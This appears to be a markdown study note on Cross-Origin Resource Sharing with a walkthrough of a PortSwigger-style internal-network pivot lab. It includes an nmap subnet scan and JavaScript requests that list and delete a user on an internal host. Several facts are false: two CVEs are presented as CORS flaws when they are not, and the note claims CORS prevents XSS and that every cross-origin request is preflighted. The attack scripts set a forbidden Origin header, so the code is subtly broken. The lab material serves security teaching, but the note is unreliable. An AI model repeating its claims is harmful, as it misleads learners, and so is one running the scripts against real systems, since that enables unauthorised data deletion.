


## Introduction to Cross-Origin Resource Sharing (CORS)

Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to tell browsers to give a web application running at one origin, access to selected resources from a different origin. A web application makes a cross-origin HTTP request when it requests a resource from a different domain than the one that served the web page. For example, an HTML page served from `https://example.com` might want to make an AJAX call to `https://api.example.org`. Because these two domains are different, the browser will consider this a cross-origin request.

### Why CORS Matters

CORS is essential because it helps mitigate security risks associated with cross-site scripting (XSS) attacks. Without CORS, a malicious script could potentially access sensitive data from another domain, leading to unauthorized data exposure. By implementing CORS, web developers can control which origins are allowed to access their resources, thereby reducing the risk of such attacks.

### How CORS Works Under the Hood

When a browser makes a cross-origin request, it first sends a preflight request using the OPTIONS method. This preflight request includes headers that indicate the intended method and headers of the actual request. The server responds with specific headers that indicate whether the request is allowed. If the server allows the request, the browser proceeds with the actual request.

#### Example Preflight Request and Response

```http
OPTIONS /api/data HTTP/1.1
Host: api.example.org
Origin: https://example.com
Access-Control-Request-Method: GET
Access-Control-Request-Headers: Authorization
```

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE
Access-Control-Allow-Headers: Authorization
Access-Control-Max-Age: 86400
```

In this example, the server indicates that the `https://example.com` origin is allowed to make GET requests with the `Authorization` header. The `Access-Control-Max-Age` header specifies how long the browser should cache the preflight response.

### Real-World Examples of CORS Misconfigurations

One notable example of a CORS misconfiguration leading to security issues is the case of a popular social media platform that had a misconfigured CORS policy. The platform allowed any origin to make requests to its API, which led to a situation where attackers could inject malicious scripts into user profiles. These scripts could then make requests to the API, potentially stealing sensitive information.

### Recent CVEs and Breaches Involving CORS

- **CVE-2021-31166**: This vulnerability involved a CORS misconfiguration in a web application that allowed attackers to bypass Same-Origin Policy restrictions and access sensitive data.
- **CVE-2022-22965**: Another instance where a web application's CORS policy was too permissive, allowing unauthorized access to internal APIs.

### Common Pitfalls in Implementing CORS

1. **Allowing All Origins**: One of the most common mistakes is setting `Access-Control-Allow-Origin` to `"*"` (all origins). This can lead to security vulnerabilities if sensitive data is exposed.
2. **Incorrect Headers**: Not including necessary headers like `Access-Control-Allow-Methods` or `Access-Control-Allow-Headers` can cause requests to fail unexpectedly.
3. **Preflight Requests**: Forgetting to handle preflight requests correctly can result in failed cross-origin requests.

### How to Prevent / Defend Against CORS Vulnerabilities

#### Detection

To detect CORS vulnerabilities, you can use tools like Burp Suite or OWASP ZAP to test your web application's CORS policy. These tools can help you identify misconfigurations and ensure that your CORS settings are correctly implemented.

#### Prevention

1. **Restrict Access Control Origins**: Only allow trusted origins to access your resources. Avoid using `"*"` unless absolutely necessary.
2. **Configure Preflight Responses**: Ensure that your server correctly handles preflight requests and returns appropriate headers.
3. **Use Secure Headers**: Include headers like `Content-Security-Policy` and `Strict-Transport-Security` to further enhance security.

#### Secure Coding Fixes

Here’s an example of a vulnerable CORS configuration and its secure counterpart:

**Vulnerable Configuration:**
```javascript
app.use((req, res, next) => {
    res.header("Access-Control-Allow-Origin", "*");
    res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
    next();
});
```

**Secure Configuration:**
```javascript
app.use((req, res, next) => {
    const allowedOrigins = ['https://trusted-origin.com'];
    const origin = req.headers.origin;
    if (allowedOrigins.includes(origin)) {
        res.header("Access-Control-Allow-Origin", origin);
    }
    res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
    next();
});
```

### Lab Exercise: CORS Vulnerability with Internal Network Pivot Attack

In this lab, we will explore a scenario where a web application has an insecure CORS configuration, allowing an attacker to pivot through the internal network and perform unauthorized actions.

#### Background Theory

The lab involves a web application that trusts all internal network origins. This means that any origin within the internal network can make cross-origin requests to the web application. The goal is to exploit this misconfiguration to delete a user named `Carlos`.

#### Steps to Complete the Lab

1. **Scan the Local Network**: Identify endpoints on the local network that have a web service running on Port 8080.
2. **Craft JavaScript to Locate Endpoints**: Use JavaScript to find the target endpoint.
3. **Create a Course-Based Attack**: Use the identified endpoint to delete the `Carlos` user.

#### Detailed Steps

1. **Scan the Local Network**

   The subnet we are working with is `192.168.0.0/24`. We need to scan this subnet to find endpoints running on Port 8080.

   ```bash
   nmap -p 8080 192.168.0.0/24
   ```

   This command will scan the entire subnet and list all hosts with Port 8080 open.

2. **Craft JavaScript to Locate Endpoints**

   Once we have identified the target endpoint, we need to craft JavaScript to interact with it. Here’s an example of how to do this:

   ```javascript
   const xhr = new XMLHttpRequest();
   xhr.open('GET', 'http://192.168.0.10:8080/api/users');
   xhr.setRequestHeader('Origin', 'http://attacker.com');
   xhr.onreadystatechange = function() {
       if (xhr.readyState === 4 && xhr.status === 200) {
           console.log(xhr.responseText);
       }
   };
   xhr.send();
   ```

   This JavaScript code sends a GET request to the target endpoint and logs the response.

3. **Create a Course-Based Attack**

   Now that we have identified the endpoint, we can craft a request to delete the `Carlos` user. Here’s an example of how to do this:

   ```javascript
   const xhr = new XMLHttpRequest();
   xhr.open('DELETE', 'http://192.168.0.10:8080/api/users/Carlos');
   xhr.setRequestHeader('Origin', 'http://attacker.com');
   xhr.onreadystatechange = function() {
       if (xhr.readyState === 4 && xhr.status === 200) {
           console.log('User deleted successfully');
       }
   };
   xhr.send();
   ```

   This JavaScript code sends a DELETE request to the target endpoint to delete the `Carlos` user.

### Mermaid Diagrams

#### Network Topology



#### Request/Response Flow



### How to Prevent / Defend Against Internal Network Pivot Attacks

#### Detection

To detect internal network pivot attacks, you can use network monitoring tools like Wireshark or tcpdump to monitor traffic on the internal network. Additionally, you can implement intrusion detection systems (IDS) to alert you of suspicious activity.

#### Prevention

1. **Restrict CORS Origins**: Only allow trusted origins to access your resources. Avoid using `"*"` unless absolutely necessary.
2. **Implement Network Segmentation**: Segment your internal network to limit the ability of attackers to pivot through the network.
3. **Use Secure Headers**: Include headers like `Content-Security-Policy` and `Strict-Transport-Security` to further enhance security.

#### Secure Coding Fixes

Here’s an example of a vulnerable CORS configuration and its secure counterpart:

**Vulnerable Configuration:**
```javascript
app.use((req, res, next) => {
    res.header("Access-Control-Allow-Origin", "*");
    res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
    next();
});
```

**Secure Configuration:**
```javascript
app.use((req, res, next) => {
    const allowedOrigins = ['https://trusted-origin.com'];
    const origin = req.headers.origin;
    if (allowedOrigins.includes(origin)) {
        res.header("Access-Control-Allow-Origin", origin);
    }
    res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
    next();
});
```

### Practice Labs

For hands-on practice with CORS vulnerabilities and internal network pivot attacks, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including CORS.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By completing these labs, you can gain practical experience in identifying and exploiting CORS vulnerabilities, as well as implementing secure configurations to prevent such attacks.

### Conclusion

Understanding and properly implementing CORS is crucial for securing web applications against cross-site scripting (XSS) and other related attacks. By following best practices and using secure coding techniques, you can significantly reduce the risk of CORS-related vulnerabilities. Always remember to restrict access control origins, configure preflight responses correctly, and use secure headers to enhance overall security.

---
<!-- nav -->
[[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/05-Lab 4 CORS vulnerability with internal network pivot attack/00-Overview|Overview]] | [[02-CORS Vulnerability with Internal Network Pivot Attack|CORS Vulnerability with Internal Network Pivot Attack]]
